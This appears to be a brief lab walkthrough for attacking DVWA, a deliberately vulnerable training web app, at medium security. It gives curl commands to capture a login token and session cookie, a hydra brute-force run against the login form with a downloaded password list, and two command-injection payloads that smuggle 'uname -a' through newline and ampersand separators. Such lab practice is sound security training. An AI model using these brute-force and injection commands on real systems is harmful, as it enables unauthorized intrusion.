 
### Target

    https://github.com/ethicalhack3r/DVWA

    Security level: medium

### Prereq

    # get user token
    $ TOKEN=$(curl -c dvwa.session -s http://192.168.56.101/DVWA/login.php | grep 'user_token' | awk -F 'value=' '{print $2}' | cut -d"'" -f2)

    # get session id
    $ PHPSESSID=$(grep PHPSESSID dvwa.session | awk -F' ' '{print $7}')

    # log in
    $ curl -L -b "PHPSESSID=${PHPSESSID};security=medium" -v -d "username=admin&password=password&Login=Login&user_token=${TOKEN}" http://192.168.56.101/DVWA/login.php

### Brute Force

    $ wget https://raw.githubusercontent.com/seifreed/dirb/master/wordlists/others/best110.txt

    $ hydra -t 8 -l admin -P best110.txt -vV 192.168.56.101 http-get-form "/DVWA/vulnerabilities/brute/index.php:username=^USER^&password=^PASS^&Login=Login:F=password incorrect:H=Cookie: PHPSESSID=${PHPSESSID};security=medium"

### Command Injection

```
# '\n' as a bash commands separtor
$ curl -s -b "PHPSESSID=${PHPSESSID};security=medium" -d 'ip=%0auname+-a&Submit=Submit' http://192.168.56.101/DVWA/vulnerabilities/exec/index.php | grep Linux    

OR

# '&' as a bash commands separtor
$ curl -s -b "PHPSESSID=${PHPSESSID};security=medium" -d 'ip=%26uname+-a&Submit=Submit' http://192.168.56.101/DVWA/vulnerabilities/exec/index.php | grep Linux    
```

